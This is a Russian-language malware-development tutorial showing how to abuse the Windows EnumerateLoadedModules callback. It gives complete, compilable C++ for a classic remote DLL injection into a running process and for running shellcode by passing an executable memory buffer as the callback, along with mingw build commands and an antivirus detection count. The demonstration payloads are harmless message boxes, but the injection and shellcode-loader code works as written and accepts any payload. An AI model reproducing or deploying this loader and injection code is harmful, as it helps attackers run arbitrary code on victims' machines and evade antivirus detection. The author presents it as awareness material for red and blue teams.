\newpage
\subsection{38. трюки разработки вредоносного ПО. EnumerateLoadedModules. Пример на C++.}

﷽

{width="80%"}    

Этот пост является результатом моего собственного исследования трюка разработки вредоносного ПО: запуск шеллкода через `EnumerateLoadedModules`.     

### перечисление загруженных модулей

API `EnumerateLoadedModules` может использоваться для получения списка загруженных модулей приложения. С помощью этого API можно создать дамп загруженных модулей в целях отладки при разработке обработчиков ошибок, дампов сбоев и т. д.:     

```cpp
BOOL IMAGEAPI EnumerateLoadedModules(
  [in]           HANDLE                       hProcess,
  [in]           PENUMLOADED_MODULES_CALLBACK EnumLoadedModulesCallback,
  [in, optional] PVOID                        UserContext
);
```

Для вызова `EnumerateLoadedModules` нам нужно передать указатель на callback-функцию. `EnumerateLoadedModules` будет передавать информацию о загруженных модулях в указанную функцию обратного вызова.

### практический пример 1. вывод модулей

Например, сначала создадим простейшую callback-функцию:    

```cpp
BOOL CALLBACK PrintModules(
  PSTR ModuleName,
  ULONG ModuleBase,
  ULONG ModuleSize,
  PVOID UserContext) {
    // выводим имя модуля.
    printf("%s\n", ModuleName);
    return TRUE;
}
```

Затем просто используем эту функцию в качестве второго аргумента:    

```cpp
EnumerateLoadedModules(ph, (PENUMLOADED_MODULES_CALLBACK)PrintModules, NULL);
```

Таким образом, полный код выглядит следующим образом:    


```cpp
#include <iostream>
#include <windows.h>
#include <dbghelp.h>

#pragma comment (lib, "dbghelp.lib")

// callback function
BOOL CALLBACK PrintModules(
  PSTR ModuleName,
  ULONG ModuleBase,
  ULONG ModuleSize,
  PVOID UserContext) {
    // print the module name.
    printf("%s\n", ModuleName);
    return TRUE;
}

int main(int argc, char *argv[]) {
  // inject a DLL into remote process
  HANDLE ph = GetCurrentProcess();
  // enumerate modules
  printf("\nenumerate modules... \n");
  EnumerateLoadedModules(ph, (PENUMLOADED_MODULES_CALLBACK)PrintModules, NULL);
  return 0;
}
```

### демонстрация 1

Давайте посмотрим первый пример в действии. Компилируем наш скрипт `hack.cpp`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

{width="80%"}    

Затем просто запускаем на машине с Windows (`Windows 10 x64` в нашем случае):    

```powershell
.\hack.exe
```

{width="80%"}    

{width="80%"}    

Как можно заметить, всё сработало идеально!     

### практический пример 2. инъекция DLL

Предположим, у нас есть вредоносное ПО с логикой [классической DLL-инъекции](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html) `hack2.cpp`:    

```cpp
#include <iostream>
#include <windows.h>

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

int main(int argc, char *argv[]) {
  // inject a DLL into remote process
  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));  
  LPVOID rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  HANDLE rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);

  CloseHandle(ph);
  return 0;
}
```

Затем мы немного изменим этот код: добавим вызов API `EnumerateLoadedModules` с предыдущей функцией обратного вызова:

```cpp
/*
hack2.cpp
DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/
#include <iostream>
#include <windows.h>
#include <dbghelp.h>

#pragma comment (lib, "dbghelp.lib")

char evilDLL[] = "C:\\evil.dll";
unsigned int evilLen = sizeof(evilDLL) + 1;

// callback function
BOOL CALLBACK PrintModules(
  PSTR ModuleName,
  ULONG ModuleBase,
  ULONG ModuleSize,
  PVOID UserContext) {
    // print the module name.
    printf("%s\n", ModuleName);
    return TRUE;
}

int main(int argc, char *argv[]) {
  // inject a DLL into remote process

  HMODULE hKernel32 = GetModuleHandle("Kernel32");
  VOID *lb = GetProcAddress(hKernel32, "LoadLibraryA");

  HANDLE ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  LPVOID rb = VirtualAllocEx(ph, NULL, evilLen, (MEM_RESERVE | MEM_COMMIT), 
  PAGE_EXECUTE_READWRITE);

  // "copy" evil DLL between processes
  WriteProcessMemory(ph, rb, evilDLL, evilLen, NULL);
  HANDLE rt = CreateRemoteThread(ph, NULL, 0, (LPTHREAD_START_ROUTINE)lb, rb, 0, NULL);

  // enumerate modules
  printf("\nenumerate modules... \n");
  EnumerateLoadedModules(ph, (PENUMLOADED_MODULES_CALLBACK)PrintModules, NULL);

  CloseHandle(ph);
  return 0;
}
```

Для простоты, как обычно, моя "вредоносная" DLL - это просто `meow` messagebox (`evil.c`):    

```cpp
/*
evil.c
simple DLL for DLL inject to process
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow from evil.dll!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

### демонстрация 2

Давайте снова посмотрим всё в действии.    

Сначала компилируем нашу "вредоносную" DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

{width="80%"}    

На следующем шаге компилируем наше вредоносное ПО с DLL-инъекцией:    

```bash
x86_64-w64-mingw32-g++ -O2 hack2.cpp -o hack2.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

{width="80%"}    

И наконец, запускаем его для процесса `mspaint.exe` на машине жертвы (`Windows 10 x64` в моём случае):    

```powershell
.\hack2.exe <mspaint PID>
```

{width="80%"}    

{width="80%"}    

Как можно заметить, наша callback-функция успешно вывела нашу "вредоносную" DLL. Идеально!   

### практический пример 3. запуск шеллкода через callback-функцию.    

Это самый интересный пример. Оказывается, можно запустить шеллкод, используя callback-функцию в этом API:    


```cpp
/*
 * hack3.cpp - run shellcode via EnumerateLoadedModules. C++ implementation
 * @cocomelonc
 * https://cocomelonc.github.io/malware/2022/12/21/malware-tricks-25.html
*/
#include <windows.h>
#include <dbghelp.h>

unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

int main(int argc, char* argv[]) {
  LPVOID mem = VirtualAlloc(NULL, sizeof(my_payload), MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, my_payload, sizeof(my_payload));
  EnumerateLoadedModules(GetCurrentProcess(), (PENUMLOADED_MODULES_CALLBACK)mem, NULL);
  return 0;
}
```

If you have been reading my blog for a long time, then I think you have a deja vu. As you can see, it's similar to run shellcode via [EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) and [EnumChildWindows](https://cocomelonc.github.io/malware/2022/07/13/malware-injection-21.html). The only difference is just add `dbghelp.h`. As usually, for simplicity I used `meow-meow` messagebox payload:    

```cpp
unsigned char my_payload[] =
  // 64-bit meow-meow messagebox
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
  "\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";
```

### демонстрация 3

Давайте посмотрим запуск шеллкода в действии. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack3.cpp -o hack3.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive -ldbghelp
```

{width="80%"}    

Затем запускаем на машине жертвы:    

```powershell
.\hack3.exe
```

{width="80%"}    

{width="80%"}    

Как можно заметить, всё сработало идеально, как и ожидалось!    

Давайте загрузим `hack3.exe` на VirusTotal:    

{width="80%"}    

**Итак, 20 из 71 антивирусных движков определили наш файл как вредоносный.**      

[https://www.virustotal.com/gui/file/6fe8e9fe9593780a620903a33d3fda025946e770781eb997490c109fd95303ed/detection](https://www.virustotal.com/gui/file/6fe8e9fe9593780a620903a33d3fda025946e770781eb997490c109fd95303ed/detection)     

Надеюсь, этот пост повысит осведомлённость синих команд об этой интересной технике и добавит оружие в арсенал красных команд.    

[EnumerateLoadedModules](https://learn.microsoft.com/en-us/windows/win32/api/dbghelp/nf-dbghelp-enumerateloadedmodules)     
[Classic DLL injection](https://cocomelonc.github.io/tutorial/2021/09/20/malware-injection-2.html)    
[Malware dev tricks. Run shellcode via EnumChildWindows](https://cocomelonc.github.io/malware/2022/07/13/malware-injection-21.html)      
[Malware dev tricks. Run shellcode via EnumDesktopsA](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html)     
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-12-21-malware-tricks-25)       
